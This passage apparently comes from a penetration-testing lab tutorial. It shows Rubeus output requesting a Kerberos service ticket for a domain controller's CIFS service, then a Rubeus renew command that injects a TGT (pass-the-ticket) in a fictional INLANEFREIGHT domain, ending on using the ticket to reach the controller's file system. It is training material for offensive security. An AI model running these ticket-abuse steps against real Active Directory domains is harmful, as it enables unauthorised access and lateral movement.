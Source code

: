 ```powershell-session
[*] Action: Ask TGS

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (10.129.1.207)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/dc01.INLANEFREIGHT.local'
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFyDCCBcSgAwIBBaEDAgEWooIErTCCBKlhggSlMIIEoaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKzApoAMCAQKhIjAgGwRjaWZzGxhkYzAxLklOTEFORUZSRUlHSFQubG9jYWyjggRUMIIEUKADAgES
      oQMCAQOiggRCBIIEPrCawPV<SNIP>

  ServiceName           :  cifs/dc01.INLANEFREIGHT.local
  ServiceRealm          :  INLANEFREIGHT.LOCAL
  UserName              :  sarah.lafferty
  UserRealm             :  INLANEFREIGHT.LOCAL
  StartTime             :  8/14/2020 4:21:49 AM
  EndTime               :  8/14/2020 2:06:37 PM
  RenewTill             :  8/21/2020 4:06:37 AM
  Flags                 :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  zRzk0ldsF4rb7p7/MlfRkhOzkjIHL4DSok1vXYS3lt8=
```

In case the above command doesn't work, we can also use the [renew action](https://github.com/GhostPack/Rubeus#renew) to get a brand new TGT instead of a TGS ticket:

#### Using Rubeus and renew
```powershell-session
PS C:\Tools> .\Rubeus.exe renew /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2

[*] Action: Renew Ticket

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (172.16.99.3)
[*] Building TGS-REQ renewal for: 'INLANEFREIGHT.LOCAL\brian.willis'
[+] TGT renewal request successful!
[*] base64(ticket.kirbi):

      doIGHDCCBhigAwIBBaEDAgEWooIFCDCCBQRhggUAMIIE/KADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D<SNIP>.
```

Once we have the TGS or the TGT we can effectively list the contents of the Domain Controller file system as shown in the following command.
